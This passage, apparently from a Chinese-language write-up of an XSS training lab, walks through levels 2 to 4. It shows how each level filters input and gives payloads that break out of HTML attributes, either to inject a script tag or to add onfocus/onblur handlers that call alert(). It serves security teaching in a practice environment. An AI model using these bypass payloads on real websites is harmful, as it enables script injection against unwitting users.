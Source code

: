 实体转义了，此处肯定是无法入手了，看下面的：

```html
<input name=keyword  value="<script>alert('xss');</script>">
```

由于每一次输入都会将改结果存放到value里，因此，只需要闭合前面的双引号即可注入：

payload:

```html
"><script>alert('xss');</script>
```

## Level 3

和上面差不多，但是value中也被实体编码了：

```html
<h2 align=center>没有找到和&lt;script&gt;alert('xss');&lt;/script&gt;相关的结果.</h2><center>
<input name=keyword  value='&lt;script&gt;alert('xss');&lt;/script&gt;'>	
```

注意单引号仍然可以闭合，于是构造事件型payload即可：

```html
' onblur='alert()' onfocus='alert()
```

此时源码为：

```html
<input name=keyword  value='' onblur='alert()' onfocus='alert()'>	
```

鼠标移动到输入框时即可触发。

## Level 4

测试：

```html
<script>alert('xss');</script>
```

返回结果，注意点：

```html
<input name=keyword  value="scriptalert('xss');/script">
```

大小于号均被替换为了空字符串，尝试闭合属性值，事件触发。

```html
" onblur="alert()" onfocus="alert()
```

点击输入框后即可过掉。

## Level 5
